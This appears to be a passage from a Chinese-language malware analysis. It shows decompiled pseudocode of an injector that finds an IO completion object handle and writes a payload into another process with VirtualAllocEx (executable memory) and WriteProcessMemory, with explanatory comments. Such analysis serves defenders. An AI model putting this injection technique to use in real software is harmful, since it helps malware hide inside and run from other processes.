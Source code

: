 ```
            {
              v6 = *&Luid.PrivilegeCount;//保存找到的句柄
              goto LABEL_21;
            }
            if ( aIocompletion[v21] != *(v20 + 2 * v21) )
              break;
          }
        }
      }
    }
      //释放句柄信息
    free(v14);
LABEL_21:
      //保存找到的IO完成对象句柄到全局变量
    qword_18010A460 = v6;
      //调用sub_180005370函数()实行注入操作
    qword_18010A458 = sub_180005370(lpBuffer, nSize, v25, v23, &v22);
      //注入成功后执行sub_180005820()
    if ( qword_18010A458 )
      sub_180005820();
    return v22;
  }
else
  {
    result = GetLastError();
    hProcess = 0i64;
  }
return result;
}

```

  
**sub_180005370()函数**  
：该函数是一个 多阶段进程内存注入器，核心功能是通过 远程内存分配与数据写入。  

```
__int64 __fastcall sub_180005370(LPCVOID lpBuffer, SIZE_T nSize, LPCVOID a3, unsigned int a4, DWORD *a5)
{
/*
参数列表
*/

  v7 = a4;
  v8 = nSize;
  v26 = 0i64;
  v27 = 0;
    //第一次分配一块内存
    //VirtualAllocEx(hProcess, 0, nSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE)
  v9 = VirtualAllocEx(hProcess, 0i64, nSize, 0x3000u, 0x40u);
  v10 = v9;
    //任意一个操作失败（内存分配失败 或 第一次写入失败），则跳转到 LABEL_2（错误处理标签）
if ( !v9 || !WriteProcessMemory(hProcess, v9, lpBuffer, v8, 0i64) )
    goto LABEL_2;
if ( !a3 || !v7 )
  {
    result = v10;
    goto LABEL_12;
  }
  _mm_lfence();
  v12 = v7;
    //第二次分配一块内存
    //VirtualAllocEx(hProcess, 0, v7, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE)
```